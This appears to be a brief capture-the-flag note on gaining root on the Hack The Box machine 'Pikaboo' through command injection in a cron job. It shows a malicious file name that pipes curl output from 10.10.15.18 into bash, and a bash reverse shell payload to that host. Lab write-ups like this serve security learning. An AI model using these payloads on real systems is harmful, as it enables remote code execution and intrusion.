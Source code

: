 # Command Injection

## csvupdate_cron

This cron has command injection 

```bash
/usr/local/bin/csvupdate $(basename $d) *csv
```

So creating a file with command injection in the name we can get RCE

```bash
┌──(root💀kali)-[~/HTB/Pikaboo/root/abilities]
└─# cat '| curl 10.10.15.18 | bash | 1.csv'       
id,identifier,generation_id,is_main_series
1,stench,3,1
```


## Bash Payload
```bash
┌──(root💀kali)-[~/HTB/Pikaboo/www]
└─# cat index.html                         
bash -i >& /dev/tcp/10.10.15.18/9002 0>&1
```



## FTP Upload File

![[Pasted image 20210718165037.png]]


## NC Listener

![[Pasted image 20210718165109.png]]